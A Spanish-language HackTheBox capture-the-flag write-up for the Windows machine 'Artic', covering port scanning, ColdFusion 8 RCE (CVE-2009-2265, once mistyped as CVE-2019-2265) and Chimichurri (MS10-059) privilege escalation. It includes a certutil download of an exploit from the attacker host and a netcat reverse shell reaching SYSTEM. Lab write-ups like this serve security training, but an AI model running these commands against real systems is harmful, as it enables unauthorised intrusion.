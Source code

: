 ```yaml
---
title: HackTheBox - Artic
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ColdFusion 8 RCE (CVE-2009-2265)', 'Chimichurri (MS10-059)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Artic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Artic Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **ColdFusion 8 RCE (CVE-2009-2265), Chimichurri (MS10-059)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Artic**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Artic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Artic/02-versions.png)

    * El puerto **`8500`** es usado por ColdFusion para la comunicación segura (SSL)

* **Wappalyzer** detecta que el servicio es **Adobe ColdFusion**, además, ver un directorio **CFIDE** también es señal de que el servicio es Cold Fusión

    ![](/assets/images/HTB/Easy/Artic/03-web.png)

* Existen rutas a las cuales podemos acceder y obtener más información.

    ```bash
    - CFIDE/administrator/settings/mappings.cfm
    - CFIDE/administrator/enter.cfm
    ```

    ![](/assets/images/HTB/Easy/Artic/04-logo.png)

c. Si buscamos por exploits referentes a **ColdFusion 8** encontramos esto [CVE-2019-2265](https://www.exploit-db.com/exploits/50057)

* Modificamos el script 

    ```python
    if __name__ == '__main__':
      # Define some information
      lhost = '<tun0 IP>'
      lport = 443
      rhost = "<Artic IP>"
      rport = 8500
    ```
* Ejecutamos el script y ya tendremos una shell

  ```cmd
  root@kali> python coldfusion.py
  <SNIP>
  C:\ColdFusion8\runtime\bin>whoami
  whoami
  arctic\tolis
  ```

### Escalada de Privilegios 💹

a. Usaermos [Window-Exploit-Suggestor](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) para encontrar maneras de escalar privilegios, para esto, guardaremos el output del comando **systeminfo** en un fichero que le pasaremos a este script.

> El script al ser antiguo nos puede dar problemas al ejecutarlo, algunas soluciones:
> La base de datos a usar la podemos descargar de: https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester
> Para solucionar el error de fichero no soportado instalamos esto **`pip install xlrd==1.2.0`**
{: .prompt-warning }

```bash
root@kali> python2 windows-exploit-suggestor.py --database 2017-06-14-mssb.xls --systeminfo systeminfo

<SNIP>
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
```

b. En base a lo descubierto anteriormente encontramos este exploit [Chimichurri - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled)

* Lo transferimos a la **Máquina Artic**

  ```bash
  root@kali> python -m http.server 8080
  ---------------------------------------------------------------------------------------------------
  C:\Users\tolis>certutil -urlcache -split -f http://<tun0 IP>:8080/Chimichurri.exe Chimichurri.exe
  ```

c. Nos ponemos en escucha con **nc** en un puerto y nos enviamos una reverse shell

```bash
C:\Users\tolis>.\Chimichurri.exe <tun0 IP> 443
------------------------------------------------
root@kali> nc -lvnp 443
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.11] 49404
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis>whoami
whoami
nt authority\system
```